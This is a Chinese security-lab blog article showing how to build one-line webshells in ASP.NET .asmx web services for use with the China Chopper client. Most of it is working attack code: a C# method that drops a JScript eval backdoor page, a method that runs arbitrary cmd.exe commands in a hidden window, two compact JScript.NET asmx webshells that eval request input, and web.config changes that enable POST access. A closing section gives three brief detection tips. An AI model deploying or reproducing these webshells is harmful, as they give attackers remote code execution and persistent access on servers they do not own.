









探索基于.NET下实现一句话木马之asmx篇
====================================

**Ivan\@360云影实验室**

**2018年07月18日**

0x01 前言
=========

上篇介绍了一般处理程序（ashx）的工作原理以及实现一句话木马的过程，今天接着介绍Web
Service程序
（asmx）下的工作原理和如何实现一句话木马，当然介绍之前笔者找到了一款asmx马儿
<https://github.com/tennc/webshell/blob/master/caidao-shell/customize.asmx>
，依旧是一个大马如下图

这个还只是对客户端的菜刀做了适配可用，暂时不符合一句话木马的特点哈，至于要打造一款居家旅行必备的菜刀马，还得从原理上搞清楚
asmx的运行过程。

0x02 简介和原理
===============

Web
Service是一个基于可编程的web的应用程序，用于开发分布式的互操作的应用程序，也是一种web服务，Web
Service的主要目标是跨平台的可互操作性，为了实现这一目标Web Service
完全基于XML（可扩展标记语言）、XSD（XML
Schema）等独立于平台、独立于软件供应商的标准，是创建可互操作的、分布式应用程序的新平台。简单的来说Web
Service具备三个要素SOAP（Simple Object Access
Protocol）、WSDL(WebServicesDescriptionLanguage)、UDDI(UniversalDescriptionDiscovery
andIntegration)之一， SOAP用来描述传递信息的格式， WSDL
用来描述如何访问具体的接口， UDDI用来管理，分发查询webService ，也因此使用Web
Service有许多优点，例如可以跨平台工作、部署升级维护起来简单方便、实现多数据多个服务的聚合使用等等。再结合下图说明一下WebService工作的流程

无论使用什么工具、语言编写 WebService，都可以使用 SOAP 协议通过 HTTP 调用，创建
WebService 后，任何语言、平台的客户都可以阅读 WSDL 文档来调用 WebService
，同时客户端也可以根据 WSDL 描述文档生成一个 SOAP
请求信息并发送到Web服务器，Web服务器再将请求转发给 WebService 请求处理器。

对于.Net而言，WebService请求处理器则是一个 .NET Framework 自带的 ISAPI
Extension。Web请求处理器用于解析收到的SOAP请求，调用
WebService，然后生成相应的SOAP应答。Web服务器得到SOAP应答后，在通过HTTP应答的方式将其返回给客户端，但WebService也支持HTTP
POST请求，仅需要在服务端增加一项配置即可。

0x03 一句话的实现 
==================

3.1、WebMethod
--------------

在Web
Service程序中，如果一个公共方法想被外界访问调用的话，就需要加上WebMethod，加上[WebMethod]属性的公有方法就可以被访问，而没有加这个属性的方法就是不能被访问的。将
WebMethod 属性 (Attribute) 附加到 Public 方法表示希望将该方法公开为 XML Web
services 的一部分，它具备6个属性：Description
、EnableSession、MessageName、TransactionOption、CacheDuration、BufferResponse，为了更清晰的表述WebService请看下面这段代码

| namespace test { [WebService(Namespace = "http://tempuri.org/")] [WebServiceBinding(ConformsTo = WsiProfiles.BasicProfile1_1)] [System.ComponentModel.ToolboxItem(false)] // 若要允许使用 ASP.NET AJAX 从脚本中调用此 Web 服务，请取消注释以下行。 // [System.Web.Script.Services.ScriptService] public class WebService2 : System.Web.Services.WebService { [WebMethod] public string HelloWorld() { return "Hello World"; } } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

这里声明成一个字符串类型的公共方法HelloWorld，如果此时在方法体内实现创建aspx文件，保存内容为一句话小马的话那么这个WebService就变成了服务后门，依照这个推理就产生了C\#版本的WebService小马，实现了两个功能，一个是创建文件，还有一个是执行CMD命令，核心代码如下：

| [System.ComponentModel.ToolboxItem(false)] [WebMethod] /\*\* Create A BackDoor \*\*/ public string webShell() { StreamWriter wickedly = File.CreateText(HttpContext.Current.Server.MapPath("Ivan.aspx")); wickedly.Write("\<%\@ Page Language=\\"Jscript\\"%\>\<%eval(Request.Item[\\"Ivan\\"],\\"unsafe\\");%\>"); wickedly.Flush(); wickedly.Close(); return "Wickedly"; } [WebMethod] /\*\* Exec Command via cmdShell \*\*/ public string cmdShell(string input) { Process pr = new Process(); pr.StartInfo.FileName = "cmd.exe"; pr.StartInfo.RedirectStandardOutput = true; pr.StartInfo.UseShellExecute = false; pr.StartInfo.Arguments = "/c " + input; pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden; pr.Start(); StreamReader osr = pr.StandardOutput; String ocmd = osr.ReadToEnd(); osr.Close(); osr.Dispose(); return ocmd; } |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

小马运行后执行whoami命令之后以默认XML格式回显数据，如下图

知道原理后就开始着手打造菜刀可用的一句话木马，和一般处理程序类似通过Jscript.Net的eval方法去实现代码执行，根据之前的介绍WebMethod有多个属性并且根据微软的官方文档
<https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-1.1/1tyazy68%28v%3dvs.80%29>
可以得出Jscript.Net中可以使用 WebMethodAttribute 来替代[WebMethod]。

一句话实现的代码如下：

| \<%\@ WebService Language="JScript" class="asmxWebMethodSpy"%\> import System; import System.Web; import System.IO; import System.Web.Services; public class asmxWebMethodSpy extends WebService { WebMethodAttribute function Invoke(Ivan: String) : Void { var I = HttpContext.Current; var Request = I.Request; var Response = I.Response; var Server = I.Server; Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(Ivan); } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

打开浏览器，测试效果如下

依照SOAP1.1的规范要求，发送请求的数据包就可以实现一句话代码执行，笔者这里还是拿当前的时间作为攻击载荷，如下图

3.2、ScriptMethod
-----------------

在研究WebMethod的时候，发现VisualStudio有段注释如下图

当客户端请求的方式是AJAX的时候会导入System.Web.Script.Services.ScriptService命名空间，笔者尝试去挖掘一下可能存在的新的攻击点

代码里ResponseFormat表示方法要返回的类型，一般为Json或者XML;
UseHttpGet等于true表示前台的ajax是通过GET可以访问此方法，如果前台ajax通过POST，则报错。

根据C\#中的代码可知需要配置WebMethod和ScriptMethod才能正常玩转，而在Jscript.Net中实现这两个功能的分类是WebMethodAttribute类和ScriptMethodAttribute类，最终写出一句话木马服务端代码：

| \<%\@ WebService Language="JScript" class="ScriptMethodSpy"%\> import System; import System.Web; import System.IO; import System.Web.Services import System.Web.Script.Services public class ScriptMethodSpy extends WebService { WebMethodAttribute ScriptMethodAttribute function Invoke(Ivan : String) : Void { var I = HttpContext.Current; var Request = I.Request; var Response = I.Response; var Server = I.Server; Response.Write("\<H1\>Just for Research Learning, Do Not Abuse It! Written By \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\>"); eval(Ivan); } } |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

打开浏览器输入 Response.Write(DateTime.Now) 成功打印出当前时间

可惜的是这种方法不支持.NET 2.0究其原因是using
System.Web.Script.Services;这个命名空间并不在System.Web中，而是在ajax扩展中需要额外安装ASP.NET
2.0 AJAX Extensions，所以在2.0的环境下尽量避免使用该方法。

0X04 菜刀连接 
==============

菜刀不支持SOAP的方式提交payload，直接连接asmx文件就会出现下图错误

第一种解决方法可以自己写代码实现支持SOAP的客户端，第二种办法参考asmx页面最下方给出的HTTP
POST提交方式

本地环境下用菜刀连接没问题，可以正常连接

但通常部署到服务器上可能会遇到下面的提示

| The test form is only available for requests from the local machine. |
|----------------------------------------------------------------------|

解决上述的问题需要在web.config中配置webServices节点接收的Protoclos节点下需要包含HttpPost

| \<configuration\> \<system.web\> \<webServices\> \<protocols\> \<add name="HttpGet"/\> \<add name="HttpPost"/\> \</protocols\> \</webServices\> \<customErrors mode="Off" /\> \</system.web\> \<system.webServer\> \<directoryBrowse enabled="true" /\> \</system.webServer\> \</configuration\> |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

多数情况下程序开发者会支持HTTP
POST请求，所以对此不必过于担心。还有就是基于优化考虑将asmxWebMethodSpy.asmx进一步压缩体积后只有499个字节，asmxScriptMethodSpy.asmx也只有547个字节。

0x05 防御措施
=============

1.  通过菜刀连接的方式，添加可以检测菜刀关键特征的规则；

2.  对于Web应用来说，尽量保证代码的安全性；

3.  对于IDS规则层面来说，上传的时候可以加入WebMethodAttribute等关键词的检测

0x06 小结
=========

1.  还有本文提供了两种方式实现asmx一句话的思路，当然还有更多编写一句话的技巧有待发掘，下次将介绍另外一种姿势，敬请期待；

2.  文章的代码片段请参考 <https://github.com/Ivan1ee> ；

0x07 参考链接
=============

<https://docs.microsoft.com/zh-cn/previous-versions/dotnet/netframework-1.1/1tyazy68%28v%3dvs.80%29>

<https://github.com/tennc/webshell/blob/master/caidao-shell/customize.asmx>

*https://www.cnblogs.com/bpdwn/p/3479421.html*

<https://github.com/Ivan1ee>

# 欢迎扫描下方二维码和笔者交流

